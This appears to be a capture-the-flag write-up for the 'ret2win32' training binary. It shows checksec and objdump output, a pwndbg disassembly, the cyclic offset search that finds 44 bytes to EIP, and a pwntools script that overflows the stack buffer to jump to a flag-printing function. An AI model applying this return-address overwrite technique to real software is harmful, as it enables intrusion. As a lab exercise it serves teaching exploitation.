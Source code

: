 First of all, use checksec to get some binary information

```
[marco@marco-pc Downloads]$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=70a25eb0b818fdc0bafabe17e07bccacb8513a53, not stripped
[marco@marco-pc Downloads]$ checksec --file=ret2win32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   79 Symbols     No	0		3	ret2win32
```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table


```
objdump -t ret2win32
...
080485f6 l     F .text	00000063              pwnme
08048659 l     F .text	00000029              ret2win
...
```

There are 2 interesting functions:
- pwnme, which is called from main, which print some strings and get an input;
- ret2win which perfom a system comand "cat flag.txt"

```
pwndbg> disassemble ret2win 
Dump of assembler code for function ret2win:
   0x08048659 <+0>:	push   ebp
   0x0804865a <+1>:	mov    ebp,esp
   0x0804865c <+3>:	sub    esp,0x8
   0x0804865f <+6>:	sub    esp,0xc
   0x08048662 <+9>:	push   0x8048824
   0x08048667 <+14>:	call   0x8048400 <printf@plt>
   0x0804866c <+19>:	add    esp,0x10
   0x0804866f <+22>:	sub    esp,0xc
   0x08048672 <+25>:	push   0x8048841
   0x08048677 <+30>:	call   0x8048430 <system@plt>
   0x0804867c <+35>:	add    esp,0x10
   0x0804867f <+38>:	nop
   0x08048680 <+39>:	leave  
   0x08048681 <+40>:	ret    
End of assembler dump.
pwndbg> x/s 0x8048841
0x8048841:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the EIP and then we can jump in the ret2win funciton.
Let's find out how many bytes we need to fill until EIP

```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

...

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

...

EIP  0x6161616c ('laaa')

...

pwndbg> cyclic -l 'laaa'
44

...
```

Final exploit:



```python
  1 #!/usr/bin/python3
  2 
  3 import struct
  4 from pwn import *
  5 
  6 ret2win_addr = 0x08048659
  7 
  8 shellcode = ("A"*44).encode()
  9 shellcode += struct.pack("I", ret2win_addr)
 10 
 11 p = process('./ret2win32')
 12 
 13 p.recvuntil('>')
 14 p.sendline(shellcode)
 15 p.interactive()
```
